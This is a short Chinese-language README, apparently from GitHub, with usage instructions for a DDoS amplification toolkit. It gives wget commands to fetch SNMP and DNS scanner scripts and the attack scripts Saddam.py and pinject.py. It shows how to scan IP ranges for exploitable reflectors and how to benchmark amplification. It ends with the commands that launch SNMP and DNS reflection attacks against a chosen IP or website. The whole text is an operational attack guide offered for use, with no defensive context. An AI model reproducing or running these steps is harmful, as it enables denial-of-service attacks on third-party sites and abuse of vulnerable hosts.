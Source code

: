 # 使用說明
snmp漏洞主機掃瞄

下載腳本

wget https://raw.githubusercontent.com/wartw98/test/master/snmpscan

使用腳本
./snmpscan 開始ip 結束ip 儲存檔案名稱 數值(建議10~100之間) 10

DNS漏洞主機掃瞄

下載腳本

wget https://raw.githubusercontent.com/wartw98/test/master/dnsscan

使用腳本
./dnsscan 開始ip 結束ip 儲存檔案名稱 數值(建議10~100之間) 10

攻擊腳本下載

wget https://raw.githubusercontent.com/OffensivePython/Saddam/master/Saddam.py

wget https://raw.githubusercontent.com/OffensivePython/Pinject/master/pinject.py

攻擊腳本使用

測試snmp放大倍數

python Saddam.py benchmark -s 掃瞄後的檔案

使用snmp攻擊

python Saddam.py 攻擊ip或是網址 -s 掃瞄後的檔案

測試DNS攻擊

python Saddam.py benchmark -d 掃瞄後的檔案|測試網址

使用DNS攻擊

python Saddam.py -d 掃瞄後的檔案|攻擊網址
